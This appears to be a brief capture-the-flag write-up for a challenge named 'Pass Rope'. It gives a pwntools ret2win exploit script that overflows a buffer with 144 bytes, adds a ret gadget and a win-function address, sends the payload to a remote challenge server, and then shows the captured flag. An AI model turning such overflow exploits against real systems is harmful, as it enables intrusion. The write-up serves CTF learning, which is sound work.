

# Pass Rope

Basic ret2win without security



```py
from pwn import *


elf = ELF("./pass_rope")
rop = ROP(elf)


r = remote("175.45.187.254", 5003)
# r = process("./pass_rope")
r.recvuntil("kak?")


payload = b'a' * 144
payload += p64(rop.find_gadget(["ret"])[0])
payload += p64(elf.sym["dtlo"])
r.sendline(payload)
r.interactive()
```

```
Hology6{t4L1_NyA_Gk_g3mp4nG_PÙtu5}
```